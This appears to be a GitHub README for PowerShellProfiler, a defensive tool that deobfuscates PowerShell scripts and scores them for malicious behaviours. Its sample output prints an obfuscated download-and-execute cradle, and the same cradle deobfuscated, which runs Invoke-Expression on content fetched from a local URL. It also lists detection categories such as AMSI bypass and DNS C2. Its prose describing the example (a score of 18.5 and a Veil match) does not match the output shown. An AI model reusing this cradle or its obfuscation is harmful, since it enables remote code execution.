

# PowerShellProfiler

This project code  is  from https://github.com/pan-unit42/public_tools/tree/master/powershellprofiler

 ### Introductation

PowerShellProfiler.py is a script for statically analyzing PowerShell scripts by de-obfuscating and normalizing the content which is then profiled for behavioral indicators. These behaviors are then scored and the aggregate of the scores will provide a possible risk level for the PowerShell script. This was created to highlight a practical way of tackling bulk analysis of PowerShell scripts and to assist blue teams by offering another tool that can be used to speed up analysis.

In the [Unit42 Blog Series - "Practical Behavioral Profiling of PowerShell Scripts through Static Analysis"](https://unit42.paloaltonetworks.com/practical-behavioral-profiling-of-powershell-scripts-through-static-analysis-part-1/) it covers concept, design, and the pros and cons to this approach of statically profiling behaviors within PowerShell scripts.

```
usage: PowerShellProfiler.py [-h] -f <file_name> [-d]

PowerShellProfiler analyzes PowerShell scripts statically to identify and
score behaviors.

optional arguments:
  -h, --help            show this help message and exit
  -f <file_name>, --file <file_name>
                        PowerShell Script to behaviorally profile
  -d, --debug           Enables debug output
```

### Output Result

Standard usage is fairly straight forward. Simply use the "-f" flag to pass a file name (PowerShell Script, ScriptBlock Log Export, Text File, etc) and the PowerShellProfiler.py script will output the results.

```
C:\Users\Al1ex\Desktop\PowerShellProfiler>python3 PowerShellProfiler.py -f C:\Users\Al1ex\Desktop\Powershell\1.ps1
C:\Users\Al1ex\Desktop\Powershell\1.ps1 , 5.0 , Mild Risk , 0:00:00.008002 , [Downloader - 1.5 | Script Execution - 1.5 | One Liner - 2.0]
```


Output is comma-delimited and uses the following fields:

```
File Name , Profiling Score , Proposed Risk Level , Analysis Runtime , Behaviors (pipe-delimited)
```

In this case, the file "1.ps1" was identified as having characteristics/behaviors that asuggest the script is capable of downloading content, starting a process, executing additional script content, uses compression, enumerate some kind of system information, the entire script fits on one-line, and there are patterns which match a known malwware family "Veil". These behaviors are individually scored and add up to 18.5, which is in the range of the highest risk.

Additionally, there is a "debug" mode with the "-d" flag which is useful for troubleshooting failed decoding/deobfuscation, long run times, analyzing decoded content for new behaviors, and generally just more verbose output.

```
C:\Users\Al1ex\Desktop\PowerShellProfiler>python3 PowerShellProfiler.py -d -f C:\Users\Al1ex\Desktop\Powershell\1.ps1
Opened File C:\Users\Al1ex\Desktop\Powershell\1.ps1
[+] Normalization Function
        [!] Format Replaced - True: 0:00:00.000997
        [!] Format Replaced - True: 0:00:00
[+] Normalization Function
[+] Normalization Function


##### TIMING / MATCH #####

Main Processing: 0:00:00.003988
Family ID: 0:00:00.001995
Behavior Check - Code Injection: 0:00:00
Behavior Check - Key Logging: 0:00:00
Behavior Check - Screen Scraping: 0:00:00
Behavior Check - AppLocker Bypass: 0:00:00
Behavior Check - AMSI Bypass: 0:00:00
Behavior Check - Clear Logs: 0:00:00
Behavior Check - Coin Miner: 0:00:00
Behavior Check - Embedded File: 0:00:00
Behavior Check - Abnormal Size: 0:00:00
Behavior Check - Ransomware: 0:00:00
Behavior Check - DNS C2: 0:00:00
Behavior Check - Disabled Protections: 0:00:00
Behavior Check - Negative Context: 0:00:00
['DownloadString']
Behavior Check - Downloader: 0:00:00
Behavior Check - Starts Process: 0:00:00
['Invoke-Expression']
Behavior Check - Script Execution: 0:00:00
Behavior Check - Compression: 0:00:00
Behavior Check - Hidden Window: 0:00:00
Behavior Check - Custom Web Fields: 0:00:00
Behavior Check - Persistence: 0:00:00
Behavior Check - Sleeps: 0:00:00
Behavior Check - Uninstalls Apps: 0:00:00
Behavior Check - Obfuscation: 0:00:00
Behavior Check - Crypto: 0:00:00
Behavior Check - Enumeration: 0:00:00
Behavior Check - Registry: 0:00:00
Behavior Check - Sends Data: 0:00:00
Behavior Check - Byte Usage: 0:00:00
Behavior Check - SysInternals: 0:00:00
Behavior Check - One Liner: 0:00:00
Behavior Check - Variable Extension: 0:00:00
Behavior Check - Script Logging: 0:00:00
Behavior Check - License: 0:00:00
Behavior Check - Function Body: 0:00:00
Behavior Check - Positive Context: 0:00:00
Behavior ID: 0:00:00.010971
C:\Users\Al1ex\Desktop\Powershell\1.ps1 , 5.0 , Mild Risk , 0:00:00.018915 , [Downloader - 1.5 | Script Execution - 1.5 | One Liner - 2.0]


##### ORIGINAL SCRIPT #####

.("{4}{1}{0}{2}{3}" -f 'Express','-','io','n','Invoke') (&("{2}{0}{3}{1}"-f 'e','-Object','N','w') System.Net.WebClient).DownloadString("http://127.0.0.1:4444/Al1ex.txt")

##### ALTERED SCRIPT #####

."Invoke-Expression" (&"New-Object" System.Net.WebClient).DownloadString("http://127.0.0.1:4444/Al1ex.txt")

C:\Users\Al1ex\Desktop\PowerShellProfiler>
```

